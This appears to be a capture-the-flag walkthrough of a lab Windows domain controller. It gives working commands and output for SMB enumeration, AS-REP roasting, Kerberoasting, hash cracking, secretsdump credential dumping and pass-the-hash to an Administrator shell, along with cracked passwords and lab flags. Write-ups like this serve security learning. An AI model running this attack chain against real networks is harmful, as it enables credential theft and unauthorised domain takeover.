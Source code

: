 > Vulnet: Roasted

# Nmap

nmap -sC -sV -T4 -Pn -A -vvv $IP -oN nmap/initial

```bash
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2021-06-01 15:06:00Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vulnnet-rst.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack Microsoft Windows RPC
49670/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         syn-ack Microsoft Windows RPC
49702/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: WIN-2BO8M1OE1M1; OS: Windows; CPE: cpe:/o:microsoft:windows
```

# SMB

smbclient -L \\\\10.10.52.234

```bash
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share 
	VulnNet-Business-Anonymous Disk      VulnNet Business Sharing
	VulnNet-Enterprise-Anonymous Disk      VulnNet Enterprise Sharing
```

We got some interesting files in `VulnNet-Business-Anonymous` and `VulnNet-Enterprise-Anonymous` shares. All the text file contained some usernames and details. Now let's find some usernames. Also we got `IPC$` share readable which contains many files as well.

# Username Enumeration

python3 /opt/impacket/examples/lookupsid.py anonymous@$IP

```bash
[*] Brute forcing SIDs at 10.10.75.240
[*] StringBinding ncacn_np:10.10.75.240[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-1589833671-435344116-4136949213
498: VULNNET-RST\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: VULNNET-RST\Administrator (SidTypeUser)
501: VULNNET-RST\Guest (SidTypeUser)
502: VULNNET-RST\krbtgt (SidTypeUser)
512: VULNNET-RST\Domain Admins (SidTypeGroup)
513: VULNNET-RST\Domain Users (SidTypeGroup)
514: VULNNET-RST\Domain Guests (SidTypeGroup)
515: VULNNET-RST\Domain Computers (SidTypeGroup)
516: VULNNET-RST\Domain Controllers (SidTypeGroup)
517: VULNNET-RST\Cert Publishers (SidTypeAlias)
518: VULNNET-RST\Schema Admins (SidTypeGroup)
519: VULNNET-RST\Enterprise Admins (SidTypeGroup)
520: VULNNET-RST\Group Policy Creator Owners (SidTypeGroup)
521: VULNNET-RST\Read-only Domain Controllers (SidTypeGroup)
522: VULNNET-RST\Cloneable Domain Controllers (SidTypeGroup)
525: VULNNET-RST\Protected Users (SidTypeGroup)
526: VULNNET-RST\Key Admins (SidTypeGroup)
527: VULNNET-RST\Enterprise Key Admins (SidTypeGroup)
553: VULNNET-RST\RAS and IAS Servers (SidTypeAlias)
571: VULNNET-RST\Allowed RODC Password Replication Group (SidTypeAlias)
572: VULNNET-RST\Denied RODC Password Replication Group (SidTypeAlias)
1000: VULNNET-RST\WIN-2BO8M1OE1M1$ (SidTypeUser)
1101: VULNNET-RST\DnsAdmins (SidTypeAlias)
1102: VULNNET-RST\DnsUpdateProxy (SidTypeGroup)
1104: VULNNET-RST\enterprise-core-vn (SidTypeUser)
1105: VULNNET-RST\a-whitehat (SidTypeUser)
1109: VULNNET-RST\t-skid (SidTypeUser)
1110: VULNNET-RST\j-goldenhand (SidTypeUser)
1111: VULNNET-RST\j-leet (SidTypeUser)
```

We got some users let's put them in a file users.txt .Since kerberos is active let's give a try for ASREP Roasting and retrive hashes.

python3 /opt/impacket/examples/GetNPUsers.py 'VULNNET-RST/' -no-pass -usersfile users.txt

```bash
[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$t-skid@VULNNET-RST:63b933ce8adae4439762ad47e002d98f$69db584a1ce29a63a01bba3bd298ee4cbfe75536c1935bd5bdffa9382d0687bef868a8a7c86d98472321395688f05cfa66d427bb2667312dfbb94b1342589b5e2bc858a629a218732813b26987b6b9294eceacb26a255cbb6be9569f782a5cbaa01fc509b20d06b955495e5930ca6679e14f901103a182c12c70dd78f9162de47325d7df454820d558d26cf90c76448e0b14f7f28f1558955c2b19ceebc7bba5d1d1871fec1613dd8b7ceffa794e239ac1cad5409cdb8452bf0dbb4032c329a70199bc06706a4825d14782dbe8a0a50e51a1f711bf37de8709f34cf264c9ce4cbe6eb7e8f12be99c9734c58be5cb4607
[-] User j-goldenhand doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User j-leet doesn't have UF_DONT_REQUIRE_PREAUTH set
```

We got `t-skid`'s hash. Let's crack it using hashcat!

hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt

```
tj072889*
```

Let's now try kerberoasting to find and fetch service Principal Names that are associated with normal users account.

```bash
python3 /opt/impacket/examples/GetUserSPNs.py 'VULNNET-RST.local/t-skid:tj072889*' -outputfile kerb.hash -dc-ip $IP
Impacket v0.9.23.dev1+20210111.162220.7100210f - Copyright 2020 SecureAuth Corporation

ServicePrincipalName    Name                MemberOf                                                       PasswordLastSet             LastLogon                   Delegation 
----------------------  ------------------  -------------------------------------------------------------  --------------------------  --------------------------  ----------
CIFS/vulnnet-rst.local  enterprise-core-vn  CN=Remote Management Users,CN=Builtin,DC=vulnnet-rst,DC=local  2021-03-11 14:45:09.913979  2021-03-13 18:41:17.987528
```

We can identify the hash using john too `john --show=formats kerb.hash`

john --format=krb5tgs kerb.hash --wordlist=/usr/share/wordlists/rockyou.txt

```bash
ry=ibfkfv,s6h,   (?)
```

Since we have winrm enabled let's try to get into it.

evil-winrm -u 'enterprise-core-vn' -p 'ry=ibfkfv,s6h,' -i $IP

We are in!! But before that I also used t-skid's password to getinto SMB and found an interesting file `ResetPassword.vbs` in NETLOGON share.

```bash
smbmap -H $IP -u t-skid -p "tj072889*" -R

NETLOGON                                          	READ ONLY	Logon server share 
.\NETLOGON\*
dr--r--r--                0 Tue Mar 16 19:15:49 2021	.
dr--r--r--                0 Tue Mar 16 19:15:49 2021	..
fr--r--r--             2821 Tue Mar 16 19:18:14 2021	ResetPassword.vbs
```

smbget -U t-skid -R smb://$IP/NETLOGON/ResetPassword.vbs -v

And in that file we got some password.

```
strUserNTName = "a-whitehat"
strPassword = "bNdKVkjv3RR9ht"
```

We can get a shell using wimexec too.

wmiexec.py vulnnet-rst.local/a-whitehat@$IP

And we are in!! Either way we can get our user flag!!

# user.txt

```
THM{726b7c0baaac1455d05c827b5561f4ed}
```

So moving again to SMB but now as a-whitehat.

smbmap -H $IP -u a-whitehat -p "bNdKVkjv3RR9ht" 

```bash
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  READ, WRITE     Remote Admin
        C$                                                      READ, WRITE     Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                READ, WRITE     Logon server share 
        SYSVOL                                                  READ, WRITE     Logon server share 
        VulnNet-Business-Anonymous                              READ ONLY       VulnNet Business Sharing
        VulnNet-Enterprise-Anonymous                            READ ONLY       VulnNet Enterprise Sharing
```

And since we have write access to SMB as admin we can try to dump hashes using secretsdump.py.

python3 /opt/impacket/examples/secretsdump.py VULNNET-RST.local/a-whitehat:bNdKVkjv3RR9ht@$IP

```bash
[*] Target system bootKey: 0xf10a2788aef5f622149a41b2c745f49a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c2597747aa5e43022a3a3049a3c3b09d:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

Since we have admin hash we can pass the hash to evil-winrm and gain a shell!

evil-winrm -u 'Administrator' -H "c2597747aa5e43022a3a3049a3c3b09d" -i $IP

And we are in as Administrator!

# system.txt

```
THM{16f45e3934293a57645f8d7bf71d8d4c}
```